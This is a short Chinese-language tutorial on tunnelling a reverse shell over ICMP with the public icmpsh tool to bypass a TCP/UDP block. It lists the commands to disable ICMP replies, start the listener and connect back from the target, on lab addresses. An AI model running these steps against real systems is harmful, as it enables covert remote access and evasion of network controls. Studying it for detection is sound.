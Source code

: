 使用场景简介：

> 两台机器间,除了允许相互 ping 即icmp 通信,其他的 tcp/udp 端口一律不允许,此时我们就可考虑利用 icmp 隧道进行穿透。

这里引用： Kionsec 的《利用icmp 隧道轻松穿透tcp/udp 四层封锁》

> [https://klionsec.github.io/2017/10/31/icmp-tunnel/](https://klionsec.github.io/2017/10/31/icmp-tunnel/)

流程如下

[![](https://p5.ssl.qhimg.com/t01900832aa21d04eb6.png)](https://p5.ssl.qhimg.com/t01900832aa21d04eb6.png)

<a name="icmpsh"></a>**icmpsh**

icmpsh 是一个简单的反向 ICMPshell ，与其他类似的开源工具相比，其主要优势在于它不需要管理权限即可在目标计算机上运行。

> [https://github.com/inquisb/icmpsh](https://github.com/inquisb/icmpsh)

一、Usage

1）Server

禁用ICMP

> sysctl -wnet.ipv4.icmp_echo_ignore_all=1

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01597e5a7bf8d476ae.png)

设置监听 python icmpsh_m.pysrc(host：本地机器) dst(host：目标机器)

> ./icmpsh_m.py 192.168.30.130 192.168.30.134

[![](https://p5.ssl.qhimg.com/t019922227556cc3c0e.png)](https://p5.ssl.qhimg.com/t019922227556cc3c0e.png)

反弹上线

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t014d74fbeabd22e99f.png)

2) Client<br>
反弹 shell 建立 session

> icmpsh.exe -t 192.168.30.130

[![](https://p1.ssl.qhimg.com/t0170e1170dfd0d8381.png)](https://p1.ssl.qhimg.com/t0170e1170dfd0d8381.png)

-r 参数 利用 test 账户进行测试

> icmpsh.exe -t 192.168.30.130 -r

[![](https://p5.ssl.qhimg.com/t0125f80418f32b9d28.png)](https://p5.ssl.qhimg.com/t0125f80418f32b9d28.png)

3）数据包特征

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01be9fcd118a7ff938.png)
